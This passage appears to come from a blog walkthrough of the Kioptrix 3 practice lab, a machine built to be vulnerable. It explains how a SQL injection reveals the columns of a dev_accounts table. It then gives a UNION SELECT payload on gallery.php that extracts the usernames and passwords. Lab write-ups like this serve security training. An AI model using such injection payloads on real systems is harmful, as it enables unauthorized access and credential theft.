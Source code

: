 <a href="/img/blog/kioptrix3/kioptrix3-09.png" target="_blank"><img class="centerImgHuge" src="/img/blog/kioptrix3/kioptrix3-09.png"></a>

Result shows us 3 columns of interest:

* id
* password
* username

Great! That's exactly what we want. All that remains is one last command which will present us with the sweet credentials - `kioptrix3.com/gallery/gallery.php?id=1 UNION SELECT 1,CONCAT(username,';',id,';',password),NULL,4,5,6 FROM dev_accounts`:

<a href="/img/blog/kioptrix3/kioptrix3-10.png" target="_blank"><img class="centerImgHuge" src="/img/blog/kioptrix3/kioptrix3-10.png"></a>
